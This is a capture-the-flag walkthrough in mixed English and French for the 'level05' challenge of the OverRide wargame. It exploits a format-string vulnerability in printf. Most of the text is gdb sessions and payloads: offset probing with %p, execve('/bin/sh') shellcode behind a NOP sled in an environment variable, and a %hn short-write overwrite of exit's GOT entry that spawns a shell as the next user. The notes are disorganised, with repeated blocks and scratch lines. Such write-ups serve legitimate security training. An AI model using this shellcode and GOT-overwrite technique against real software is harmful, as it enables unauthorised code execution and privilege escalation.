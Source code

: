 # level05

We can see that program takes an input and XOR each byte with 32 if it is between 'A' and 'Z'. It is a `toLower` like function:

```gdb
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048472 in main ()
(gdb) c
Continuing.
AAAAAAAAAAA

Breakpoint 2, 0x08048500 in main ()
(gdb) x/s $esp+0x28
0xffffd668:      'a' <repeats 11 times>, "\n"
```

Then, it pass the result string in `printf` as the only argument.

We try to found the direct access parameter:

```bash
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
```

Our string is printed at the 10th parameter.

We put our shellcode in an environment variable and find its address:

```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

```gdb
(gdb) x/s *((char **)environ+0)
0xffffd72f:      "EXPLOIT=\220\220\220"...

(gdb) p/d 0xffffd72f+200
$1 = 4294957047
(gdb) p/x 0xffffd72f+200
$2 = 0xffffd7f7
```

(gdb)  p/d 0xffffd74a+200
$1 = 4294957074
(gdb)  p/d 0xffffd702+200
$2 = 4294957002

(gdb) p/x 0xffffd74a+200  
$3 = 0xffffd812
(gdb) p/x 0xffffd702+200
$4 = 0xffffd7ca

(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
```
  
Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10  
  
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  

(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  
  
adresse exploit: 0xffffd74a  
(gdb) p/d 0xffffd74a+200  
$1 = 4294957074  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812  
(gdb) x/s 0xffffd812  
  
We get exit function address:

```gdb
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
...
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
```
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + %4294957070\$x + '%10\$n'")
0x0804847a in main ()
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
Breakpoint 2, 0x08048507 in main ()
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e

Nous pouvons voir que les bytes que nous avons rentrer dans le fgets() ne sont pas modifier, mais que nous n'avons pas jump sur notre shellcode
  
Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf  
  
Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite. 
  
```bash
(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
  
```

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100  
(gdb) x/wx $esp  
0xffffd470:     0xffffd498  
(gdb) x/s 0xffffd498  
0xffffd498:      ""  
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%.55306u%10\$hn' + '%.10221u%11\$hn'")  
=> 0x08048507 <+195>:   call   0x8048340 <printf@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     jbe    0x8049765 <_DYNAMIC+105>
   0x080497e2 <+2>:     add    al,0x8
End of assembler dump.

=> 0x0804850c <+200>:   mov    DWORD PTR [esp],0x0
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     adc    bl,al
   0x080497e2 <+2>:     (bad)  
   0x080497e3 <+3>:     jmp    DWORD PTR [eax]
End of assembler dump.
  
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05  
<...>  
whoami  
level06  
